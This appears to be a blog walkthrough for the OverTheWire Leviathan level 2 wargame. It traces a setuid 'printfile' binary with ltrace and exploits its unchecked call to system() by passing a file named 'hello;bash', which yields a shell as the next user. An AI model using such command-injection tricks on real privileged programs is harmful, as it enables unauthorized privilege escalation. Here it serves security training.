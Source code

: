 ```yaml
---
title: Overthewire Leviathan Level 2
date: '2022-03-02 22:30:00'
description: ''
categories: [OverTheWire, Leviathan]
tags: [overthewire, leviathan]
---
```


Solution for the Overthewire.org [Leviathan level 2](https://overthewire.org/wargames/leviathan/leviathan2.html){:target="\_blank"}

## Level Goal  

There is no information for this level, intentionally.

## Walkthrough 
Login to the server using the password obtained from the previous level [Leviathan level 1]({% post_url 2022-02-28-leviathan1 %}). 

username: `leviathan2` 

```ssh
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```

With no description given first thing we do is check what is in the home directory.

```console
leviathan2@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 7436 Aug 26  2019 printfile
-rw-r--r--  1 root       root        675 May 15  2017 .profile
leviathan2@leviathan:~$ 
```

There is a executable named `printfile` that will run with leviathan3 permissions.

When running the file we find out it takes a file name as it's argument.

```console
leviathan2@leviathan:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
```

Since it runs with `leviathan3` permissions we can try printing the password file leviathan3.

```console
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Using `ltrace` we can begin to see what the executable is doing.

```console
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                  = -1
puts("You cant have that file..."You cant have that file...
)                                                            = 27
+++ exited (status 1) +++
```

The first thing it does is call `access`. Access is used to check if the user has permission to access the given file, it also dereferences symbolic links so we cannot create a simlink to the password file. 

```
access() 
    checks whether the calling process can access the file pathname.  
    If pathname is a symbolic link, it is dereferenced.
```

So we have seen what happens when we do not have permission to read a file, what happens when we do have the correct permission.
We create a file `sayHello` and write 'hello' to the file.
When we run `printfile` on sayHello we get the text 'hello' back.

```console
leviathan2@leviathan:/tmp/mine2$ echo "hello" > sayHello
leviathan2@leviathan:/tmp/mine2$ ls
sayHello

leviathan2@leviathan:/tmp/mine2$ ~/printfile sayHello 
hello
```

Now we can use ltrace to dig deeper into what `printfile` is doing.


```console
leviathan2@leviathan:/tmp/mine2$ ltrace ~/printfile sayHello 
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("sayHello", 4)                                             = 0
snprintf("/bin/cat hello", 511, "/bin/cat %s", "sayHello")        = 14
geteuid()                                                         = 12002
geteuid()                                                         = 12002
setreuid(12002, 12002)                                            = 0
system("/bin/cat sayHello"hello
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                            = 0
+++ exited (status 0) +++
```

We can see that the file is 
- checking if we have permission to access the file
- getting the effective uid
- setting the effective uid to leviathan3
- using system to run /bin/cat on the given file


Since the input is being passed directly to `system` it is not performing any validation.
We can pass other commands by creating files with special characters like `;` which is used to enter multiple commands in the terminal.


```console
leviathan2@leviathan:/tmp/mine2$ touch 'hello;bash'

leviathan2@leviathan:/tmp/mine2$ ~/printfile 'hello;bash' 
/bin/cat: hello: No such file or directory
leviathan3@leviathan:/tmp/mine2$ 
```

Now we have a shell as `leviathan3`, we can read the password file.

```console
leviathan3@leviathan:/tmp/min2$ cat /etc/leviathan_pass/leviathan3
Ahd*******
```
